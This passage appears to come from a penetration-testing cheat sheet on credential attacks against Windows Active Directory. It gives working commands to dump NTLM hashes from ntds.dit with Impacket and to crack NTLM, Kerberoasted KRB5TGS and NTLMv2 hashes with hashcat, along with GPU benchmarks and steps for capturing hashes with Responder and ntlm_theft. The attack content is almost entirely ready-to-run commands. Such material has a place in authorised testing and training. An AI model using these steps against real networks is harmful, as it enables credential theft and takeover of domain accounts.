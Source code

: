 And using Impacket to dump the hashes
```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```
You can crack the NTLM hash dump usign the following hashcat syntax:
```
hashcat64 -m 1000 -a 0 -w 4 --force --opencl-device-types 1,2 -O d:\hashsample.hash "d:\WORDLISTS\realuniq.lst" -r OneRuleToRuleThemAll.rule
```
*Benchmark using a Nvidia 2060 GTX:*
Speed: 7000 MH/s
Recovery Rate: 12.47%
Elapsed Time: 2 Hours 35 Minutes

## Cracking Hashes from Kerboroasting - KRB5TGS

A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.
KRB5TGS - Kerberoasting Service Accounts that use SPN Once you have identified a Kerberoastable service account (Bloodhound? Powershell Empire? - likely a MS SQL Server Service Account), any AD user can request a krb5tgs hash from it which can be used to crack the password.

Based on my benchmarking, KRB5TGS cracking is 28 times slower than NTLM.

Hashcat supports multiple versions of the KRB5TGS hash which can easily be identified by the number between the dollar signs in the hash itself.

* 13100 - Type 23       - $krb5tgs$23$
* 19600 - Type 17       - $krb5tgs$17$
* 19700 - Type 18       - $krb5tgs$18$
* 18200 - ASREP Type 23 - $krb5asrep$23$

KRB5TGS Type 23 - Crackstation humans only word list with OneRuleToRuleThemAll mutations rule list.
```
hashcat64 -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O d:\krb5tgs.hash d:\WORDLISTS\realhuman_phill.txt -r OneRuleToRuleThemAll.rule	
```
*Benchmark using a Nvidia 2060 GTX:*
Speed: 250 MH/s
Elapsed Time: 9 Minutes


## Cracking NTLMv2 Hashes from a Packet Capture

Go here and get this:
https://github.com/Greenwolf/ntlm_theft

1. Make all the files using your tun0 ip.
2. responder -I tun0 -A
3. Copy entire hash into a file
4. hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt 
